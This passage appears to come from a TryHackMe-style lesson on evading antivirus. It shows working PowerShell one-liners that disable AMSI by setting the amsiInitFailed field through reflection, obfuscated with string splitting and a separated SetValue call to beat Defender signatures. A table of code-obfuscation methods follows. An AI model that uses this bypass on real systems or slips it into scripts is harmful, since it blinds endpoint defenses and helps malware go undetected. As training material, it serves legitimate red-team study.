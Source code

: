 Now this snippet may be harder to track down…. With some prior knowledge of PowerShell we can assume that `NonPublic` and `Static` are both pretty standard and would not contribute to the signature. We can assume `amsiInitFailed` is what Defender is alerting on and attempt to split it.
```powershell
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils').GetField('amsi'+'Init'+'Failed','No'+'nPublic,S'+'tatic')
```
```powershell
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils').GetField('amsi'+'Init'+'Failed','No'+'nPublic,S'+'tatic').SetValue($null,$true)
```

This is interesting, there doesn’t seem to be any parameter values that would contribute to this alert? This must mean that Defender is alerting on the presence of each cmdlet together to determine it is a malicious snippet. To solve this problem we need to separate the cmdlet(s) from the rest of the snippet. This technique is known as separation of related code and is often seen along with concatenation, we will cover this concept further in task 8.

```powershell
PS M:\\> $Value="SetValue"
PS M:\\> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils').GetField('amsi'+'Init'+'Failed','No'+'nPublic,S'+'tatic').$Value($null,$true)
PS M:\\>
```



## Obfuscations Function For Analysis Deception


After obfuscating basic functions of malicious code, it may be able to pass software detections but is still susceptible to human analysis. While not a security boundary without further policies, analysts and reverse engineers can gain deep insight into the functionality of our malicious application and halt operations. Adversaries can leverage advanced logic and math to create more complex and harder to understand code to combat analaysis and reverse engineering

For more information about reverse engineering, check out the [Malware Analysis module](https://tryhackme.com/module/malware-analysis).

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under other sub-layers of the **code-element layer**. Below is a table of methods covered by the taxonomy in the **obfuscating layout** and **obfuscating controls sub-layers**.

![Diagram showing the objectives of the Obfuscating Layer sub-layer: junk codes, separation of related codes, stripping redundant symbols, and meaningless identifiers](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/f9e4be87a9801b500d118e2c83e19c01.png)  

|   |   |
|---|---|
|**Obfuscation Method  <br>**|**Purpose**|
|Junk Code|Add junk instructions that are non-functional, also known as a code stubs|
|Separation of Related Code|Separate related codes or instructions to increase difficulty in reading the program|
|Stripping Redundant Symbols|Strips symbolic information such as debug information or other symbol tables|
|Meaningless Identifiers|Transform a meaningful identifier to something meaningless|
|Implicit Controls|Converts explicit controls instructions to implicit instructions|
|Dispatcher-based Controls|Determines the next block to be executed during the runtime|
|Probabilistic Control Flows|Introduces replications of control flows with the same semantics but different syntax|
|Bogus Control Flows|Control flows deliberately added to a program but will never be executed|
